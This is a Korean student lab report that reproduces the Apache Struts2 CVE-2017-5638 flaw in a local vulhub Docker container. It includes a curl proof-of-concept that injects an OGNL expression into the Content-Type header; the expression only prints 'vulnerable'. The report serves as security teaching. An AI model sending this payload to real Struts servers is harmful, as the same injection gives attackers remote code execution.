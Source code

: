 # CVE-2017-5638 (Apache Struts2 RCE) 실습 보고서
## 1. 개요
이번 보고서는 Apache Struts2 프레임워크의 Content-Type 필드 처리 취약점(CVE-2017-5638)을 도커를 이용해 재현하고, 실제 공격이 가능한지 실습한 내용을 정리한 것이다. 이 취약점은 서버에서 외부 입력을 제대로 검증하지 않아 원격 코드 실행(RCE)로 이어질 수 있는 심각한 문제를 일으킨다.

## 2. 실습 환경
- Host OS: Windows 11
- Docker Version: 28.0.4
- Docker Compose Version: 2.34.0

## 3. 실습 과정
3.1. 취약한 환경 구성
먼저 vulhub 레포지터리를 클론하고, Struts2 s2-045 취약 버전이 설정된 디렉터리로 이동했다. 이후 docker-compose를 이용해 컨테이너를 띄웠다.

git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker compose up -d
컨테이너가 정상적으로 구동되었고, localhost:8080로 접근할 수 있었다.

3.2. 환경 구축 결과
컨테이너가 정상적으로 올라가면서 Struts2 쇼케이스 페이지가 동작하는 것을 확인했다.

## 4. 취약점 검증 (PoC)
4.1. 공격 시도
curl 명령어를 이용해 Content-Type 헤더에 OGNL 표현식을 삽입해 요청을 보냈다.

curl -v -H "Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ctn=#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']).(#ctn.getWriter().println('vulnerable')).(#ctn.getWriter().flush())}" http://localhost:8080/struts2-showcase/upload.action

4.2. 결과 확인
응답 본문에 vulnerable이라는 문자열이 출력되면서, 서버에서 OGNL 표현식이 실제로 실행된 것을 확인했다. 이를 통해 취약점이 존재함을 직접 검증할 수 있었다.

## 5. 느낀점
이번 과제를 진행하면서, 제가 제대로 방향을 잡고 수행하고 있는지 확신이 들지 않았습니다. 어쩌면 과제를 잘못 이해한 것 같다고 생각합니다. 그럼에도 불구하고 주어진 조건 안에서 할 수 있는 최선을 다해 환경을 구축하고, 취약점 검증까지 마무리하려고 노력하였습니다. 과정 중 부족한 부분이 많았던 것은 사실이지만, Docker와 취약점 환경 구축 과정을 직접 경험해볼 수 있었던 점은 큰 의미가 있었습니다. 만약 기회가 된다면, 과제 내용을 완전히 이해한 상태로 다시 한 번 제대로 도전해보고 싶습니다.

## 6. 참고 자료
- Vulhub Struts2 S2-045 환경 (https://vulhub.org/#/environments/struts2/s2-045/)
- CVE-2017-5638 상세정보 - NVD (https://nvd.nist.gov/vuln/detail/CVE-2017-5638)


## 7. GitHub 레포 링크
https://github.com/soonnae/vulhub/tree/master/struts2/s2-045

(pdf 변환 시 이미지가 보이지 않아서 github에만 넣어놓겠습니다. 죄송합니다.)
